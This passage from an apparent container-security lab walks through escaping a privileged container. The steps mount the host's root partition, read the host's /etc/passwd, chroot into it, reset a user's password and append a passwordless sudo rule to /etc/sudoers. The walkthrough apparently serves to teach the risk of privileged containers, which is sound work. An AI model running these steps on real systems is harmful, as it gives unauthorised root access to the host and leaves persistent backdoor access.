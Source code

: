 35. Take a look at the `/dev` contents that privileged containers get access to:

    ```shell
    ls /dev
    ```

36. Let's take a look at the disk partitions on the host (`/dev/sda` on VMware, `/dev/vda` on KVM):

    ```shell
    fdisk -l /dev/vda
    ```

37. Note that this is a simple layout - there's a Linux (ext4) partition and a swap partition.

38. Mount the root partition (`/dev/sda1` on VMware, `/dev/vda1` on KVM) onto `/mnt` in this container:

    ```shell
    mount /dev/vda1 /mnt
    ```

39. Take a look at `/etc/passwd` on the host:

    ```shell
    cat /mnt/etc/passwd
    ```

40. Note that there's a user account called `theplague`. We'll change their password in a moment. First, let's simulate being in the host filesystem by `chroot`-ing ourself into `/mnt`:

    ```shell
    chroot /mnt /bin/bash
    ```

41. Change `theplague`'s password.  First, run a `passwd` command to start the password change process.

    ```shell
    passwd theplague
    ```

42. Set `theplague`'s password to `theplague`, just to keep things simple:

    ```
    theplague
    theplague
    ```

43. Now add `theplague` to the sudoers file as a user who doesn't need to type a password:

    ```shell
    echo "theplague ALL=(ALL) NOPASSWD:ALL" >>/etc/sudoers
    ```

44. Let's exit the `chroot`'ed shell:

    ```shell
    exit
    ```
